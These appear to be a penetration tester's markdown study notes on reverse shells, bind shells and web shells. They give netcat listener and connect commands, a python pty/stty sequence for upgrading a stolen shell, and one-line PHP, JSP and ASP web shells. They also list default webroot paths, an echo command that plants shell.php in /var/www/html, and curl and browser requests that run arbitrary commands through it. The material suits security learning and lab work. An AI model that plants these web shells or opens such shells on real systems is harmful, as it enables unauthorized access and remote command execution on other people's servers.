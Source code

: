 ## reverse shell
>A reverse shell is a type of shell in which the target system initiates a connection back to the attacker's machine.
>attacker set listner on own and target connect to it

* To set listner use netcat / nc
   `netcat -lvp <port>`
   ### reverse shell payloads link and guide
   > https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c
---
## bind shell
>A bind shell is a type of shell in which a server is set up on the victim's machine, and the attacker connects to it
>malicious program on the victim's machine, which acts as a server, 
 * > **we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.**

* `netcat <target_ip> <target_port>`
  > connect to target after setting server on target

### upgrading tty
> after shell access we cant use arror left,right or up,down for history
> to do that upgrade tty
* In netcat shell use :- **python/stty method**
       `python -c 'import pty; pty.spawn("/bin/bash")'`
* after that use `ctrl + z` to background netcal shell and get to local terminal
* then `stty raw -echo`
* then `fg` to come netcat shell

### fix size of tty shell
  * on local terminal `echo $TERM`
  * on local terminal `stty size`
  * go back to netcat shell
  * on netcat shell `export TERM=output_from_above`
  * on netcat shell `stty row output_above colums output_above`
   ---
## web shell
>A web shell is a script or program that an attacker uploads to a web server to gain unauthorized access to it. Web shells are often written in server-side scripting languages like PHP, ASP, or JSP 

### writing a web shell
>take our command through a GET request
> **php** `<?php system($_REQUEST["cmd"]); ?>`
> **jsp** `<%Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
> **asp** `<% eval request("cmd") %>`

### uploading a web shell
> upload using upload vulnerability
>  if there is **remote code execution** , **write web shell code directly in webroot**

> * find remote host web directory (webroot)
>   **Defaults webroots**
>   | Web Server | Default Webroot |
>   | :-------------   | :-------------------   |
>   | Apache|/var/www/html |
>   |Nginx|/usr/local/nginx/html |
>   |IIS|c:\inetpub\wwwroot\ |
>   |XAMPP|	C:\xampp\htdocs\ |

> * upload in webroot
> ex: 
> 	* `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

### accessing web shell
* by browser
	> `https://server_ip:port/shell.php?cmd=command_to_run`
* by curl
    >`curl http://SERVER_IP:PORT/shell.php?cmd=command_to_run`
 





